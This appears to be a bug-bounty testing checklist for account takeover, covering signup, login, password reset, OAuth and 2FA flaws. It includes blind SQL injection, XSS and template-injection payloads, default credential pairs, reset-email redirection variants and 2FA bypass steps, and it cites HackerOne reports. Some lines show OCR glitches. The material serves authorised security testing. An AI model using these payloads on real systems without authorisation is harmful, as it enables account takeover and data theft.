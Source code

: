 <details> 
## <summary>signup vulnerabilities</summary>
    
    0- check in login page or register page http or https 
    (insecure data transfer ) 
    	-------------------------------------------------------------
    1- if there is no verification code or confirmation then 
    signup with admin@~~site.com~~ and report pre-account takeover vulnerability 
	-------------------------------------------------------------
   
    3- while registertion put xss payloads inside username , name ....
        -------------------------------------------------------------
    
        -------------------------------------------------------------

    7- SQLI in Email Field

	{"email":"asd'a@a.com"} --> Not Valid
	{"email":"asd'or'1'='1@a.com" }  --> valid
	{"email":"a'-IF(LENGTH(database())>9,SLEE P(7),0)or'1'='1@a.com"} --> Not Valid
	{"email":"a'-IF(LENGTH(database())>9,SLEE P(7),0)or'1'='1@a.com"}  -> Valid -->  Delay: 7,854 milis
	{"email":"\\"a'-IF(LENGTH(database())=10,SLEEP(7),0)or'1'='1\\"@a.com"} --> {"code":0,"status":200,"mes sage":"Berhasil"} --> Valid --> Delay 8,696 milis
	{"email":"\\"a"-IF(LENGTH(database())=11,SLEEP(7),0)or'1'='1\\"@a.com"} ---> {"code":0,"status":200,"mes sage":"Berhasil"} ---> Valid --> No delay
	-------------------------------------------------------------
	- Try OAuth login with the same email account twice
 	- one from google and the other from the deafault signup function
  	- Business logic error
	-------------------------------------------------------------
 	1. Create an account with a non-existing phone number
	2. Intercept the Request in BurpSuite
	3. Send the request to the repeater and forward
	4. Go to Repeater tab and change the non-existent phone number to your phone number
	5. If you got an OTP to your phone, try using that OTP to register that non-existent number 
	-------------------------------------------------------------
	- Manipulate the JSON request
 		{
	        "code":[
	                "1000",
	                "1001",
	                "1002",
	                ...
	                "9999"
	                ]
		}

	-------------------------------------------------------------

      
</details>

-----------------------------------------------------------------------------


<details>
## <summary>login vulnerabilities </summary>

	 1- login over http not https 	( insecure data transfer )
	
	 3- try default credentials (test:test) (admin:admin) (admin:password) (kali:kali) (admin:123)
	  (admin:default) (root:root) (root:toor) (admin:kali) (kali:root) (admin:123456789)
	
	 4- try to inject sql injection in username as admin' or 1=1; -- -
	
	 5- try to make response manipulation  to bypass login page
	
	 6- use the request and send it to sqlmap to test if there is sql injection or not
	
	 7- try to inject xss payloads in username as <svg/onload=confirm()>
	
	 8- try to inject template injection inside username as {{9*9}} and if printed 81 then vulnerable to template injection
	
	 9- view source code of the page from CTRL+U to see if leaked credentials

 </details>

-----------------------------------------------------------------------------



  <details>
## <summary>reset password vulnerabilities</summary>
    
    check link of reset password in email if http not https
    check reset request code can be leaked in request or response
    no rate limit (Email bombing)
    --------------------------------------
     brute force otp 
    --------------------------------------
	- check if the password reset endpoint is vulnerable to IDOR
	-  check if the password reset endpoint is vulnerable to Host Header injection
 	- test for HTTP parameter Pollution (HPP)
    --------------------------------------
	- Test for SQLI in the reset pass send function
    --------------------------------------
	- Check for weak Cryptography in Password Reset 
	--------------------------------------
	# parameter pollution
	email=victim@mail.com&email=hacker@mail.com
	
	# array of emails
	{"email":["victim@mail.com","hacker@mail.com"]}
	
	# carbon copy
	email=victim@mail.com%0A%0Dcc:hacker@mail.com
	email=victim@mail.com%0A%0Dbcc:hacker@mail.com
	
	# separator
	email=victim@mail.com,hacker@mail.com
	email=victim@mail.com%20hacker@mail.com
	email=victim@mail.com|hacker@mail.com
 	email="victim@mail.tld%0a%0dbcc:attacker@mail.tld"
	#No domain:
	email=victim
	#No TLD (Top Level Domain):
	email=victim@xyz
	#change param case 
	email=victim@mail.com&Email=attacker@mail.com
	email@email.com**,**victim@hack.secry  
	email@email**“,”**victim@hack.secry  
	email@email.com**:**victim@hack.secry  
	email@email.com**%0d%0a**victim@hack.secry  
	**%0d%0a**victim@hack.secry  
	**%0a**victim@hack.secry  
	victim@hack.secry**%0d%0a**  
	victim@hack.secry**%0a**  
	victim@hack.secry**%0d**  
	victim@hack.secry**%00**  
	victim@hack.secry**{{}}**
	--------------------------------------
	- Ask for reset password and visit the link sent to your email
	- Click on any social media icon on the page & intercept the request
 	- lock if the token link in the refere header or the request
  	- Paswword reset link leak via referrer
    	It allows the person who has control of site to change the user’s password (CSRF attack), because this person knows reset password token of the user.
	--------------------------------------
 	- Login to your account and change pass then intercept the request
  	- in Repeater enter another email and change their password 
	--------------------------------------
	- Use Burp Sequencer to find the randomness or predictability of tokens.
	- Check if it:
 		| Generated based Timestamp
		| Generated based on the UserID
		| Generated based on email of User
		| Generated based on Firstname and Lastname
		| Generated based on Date of Birth
		| Generated based on Cryptography
	--------------------------------------

</details>

-----------------------------------------------------------------------------

<details>
	<summary>OAuth</summary>

	- Look in JS files or Github Repo for client_id & client_secret
 	- Mainpulate the redirect_uri & client_id 
  		- The Auth Server may not check those two with the ones in the DB

	----------------------------------------------------------------------------------------
 	1- Create account victim@gmail.com
  	2- Login form google also using victim@gmail.com
   	3- notice it didn't check if user exist or not
	----------------------------------------------------------------------------------------
 	1- Create account with facebook
  	2- remove email and try put the user email

    
    
  
</details>


-----------------------------------------------------------------------------

<details>
	<summary>2FA</summary>

	- Request a 2FA code from Attacker Account.
	- Use this valid 2FA code in the victim 2FA  Request and see if it bypass the 2FA Protection.
	 ----------------------------------------------------
 	- Try Response & Status code manipulation 
  	- if "Success":"false" Change it to true
   	- if the response 4xx change it to 200 OK
	----------------------------------------------------
 	- CSRF on 2FA disable feature
  	----------------------------------------------------
	- The 2FA code maybe leaked in the response or request
 	----------------------------------------------------
  	- while triggering the 2FA Code Request, 
		Analyze all the JS Files that are referred in the Response 
		to see if any JS file contain information that can help bypass 2FA code.
	----------------------------------------------------
	TOKEN
 		- try reuse used token
   		- use token to bypass another account
     		- Check for Leaked token
       	----------------------------------------------------
	1. As a user1, register, skip 2FA, copy the ID.
	2. Register an account user2, register, perform a 2FA request but with ID from user1.
	3. 2FA is enabled now on the account user1!
	4. Perform a request /api/2fa/verify with valid code and ID of user1.
	
	<https://hackerone.com/reports/810880>
	----------------------------------------------------
	1. Try Login to your account
	2. In 2FA Request resend the code
	3. If the old and new code is the same then there is an issue
	Impact: code that is not updated after a request new one makes it easier for a hacker to brute force or guess the code
	
	<https://github.com/bugcrowd/vulnerability-rating-taxonomy/issues/289>
    	----------------------------------------------------
	- Bypass 2FA with null or 000000 or Blanc
 	----------------------------------------------------
  	1. Using the same session start the flow using your account and the victim's account.
	2. When reaching the 2FA point on both accounts.
	3. complete the 2FA with your account but do not access the next part.
	4. Instead of that, try to access the next step with the victim's account flow.
	5. If the back-end only set a Boolean inside your sessions saying that you have successfully passed the 2FA you will be able to bypass the 2FA of the victim.
 	----------------------------------------------------
  	1. Use burp suite or another tool to intercept the requests
	2. Turn on and configure your MFA
	3. Login with your email and password
	4. The page of MFA is going to appear
	5. Enter any random number
	6. when you press the button "sign in securely" intercept the request POST auth.target.com/v3/api/login and in the POST message change the fields: "mode":"sms" by "mode":"email" "secureLogin":true by "secureLogin":false
	send the modification and check, you are in your account! It was not necessary to enter the phone code.
	
	<https://hackerone.com/reports/665722>
	----------------------------------------------------
	enter 2 wrong attempts in a short time
	this may leads to bypass the 2FA process
	
	<https://hackerone.com/reports/1747978>
	----------------------------------------------------
	
	- Remove the part of the cookie that is responsible for 2FA authentication
	
	https://hackerone.com/reports/2315420
	----------------------------------------------------
  	- 








 
</details>

-----------------------------------------------------------------------------

#### Random 
```
- CORS Misconfiguration to Account Takeover

- HTTP Request Smuggling to ATO
	https://hackerone.com/reports/737140
	https://hackerone.com/reports/740037

- in Profile section look for CSRF, CORS, Cache Deception, IDOR and many more

-Top ATO report in hackerone
	https://github.com/reddelexc/hackerone-reports/blob/master/tops_by_bug_type/TOPACCOUNTTAKEOVER.md

- 
```

